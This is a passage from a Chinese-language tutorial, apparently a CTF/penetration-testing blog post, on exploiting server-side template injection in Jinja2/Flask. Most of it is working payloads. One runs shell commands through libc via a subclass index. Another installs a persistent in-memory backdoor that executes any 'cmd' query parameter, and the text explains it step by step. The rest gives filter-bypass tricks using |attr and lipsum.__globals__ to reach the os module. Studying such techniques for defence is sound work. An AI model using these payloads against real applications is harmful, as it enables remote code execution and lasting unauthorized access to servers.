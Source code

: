 ```jinja2
```

这样我们就绕过了使用`__globals__`，直接利用类特性就实现了RCE。

此外，我还发现在CDLL中存在引入libc直接执行命令的方式：

```jinja2
{{range.__class__.__base__.__subclasses__()[526](%27libc.so.6%27).system(%27whoami%27)}}
```

然而这种方式似乎因为权限问题或者环境变量问题无法正常使用，需要等待后续研究。

### 内存马

内存马是一种木马，在含有SSTI的地方选择如下payload可以打上内存马。通常用于网页无回显但可以判定为存在SSTI的时候。

```jinja2
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
```

对于这段payload可以拆开解析：

```jinja2
{{ 
    url_for.__globals__['__builtins__']['eval'](
        "app.after_request_funcs.setdefault(None, []).append(\n"
        "    lambda resp: \n"
        "        CmdResp if request.args.get('cmd') \n"
        "        and exec(\n"
        "            \"global CmdResp; CmdResp = __import__('flask').make_response(\"\n"
        "            \"__import__('os').popen(request.args.get('cmd')).read())\"\n"
        "        ) == None \n"
        "        else resp\n"
        ")",
        {
            'request': url_for.__globals__['request'],
            'app': url_for.__globals__['current_app']
        }
    ) 
}}
```

详情可见：

https://mixbp.github.io/2025/04/16/python%E5%86%85%E5%AD%98%E9%A9%AC/

https://xz.aliyun.com/news/13858

https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/

https://xz.aliyun.com/news/10381

### WAF绕过

真实环境或者题目环境下会存在许多输入限制，防止你注入，有很多师傅在禁止输入和反禁止输入上有了很多奇技淫巧，叹为观止。前人之述备矣，我的研究也不是很充分，下面是一些比较完善的WAF绕过方法：

https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/

https://xz.aliyun.com/news/7341

[SSTI模板注入详细总结及WAF绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134257483)

`''|attr("__class__")`等效于`''.__class__`，要使用`xxx.os('xxx')`类似的方法，可以使用`xxx|attr("os")('xxx')`。即`.`等价于`|attr()`

使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到`__builtins__`，而且`lipsum.__globals__`含有os模块

可以得到`lipsum|attr("__globals__")`
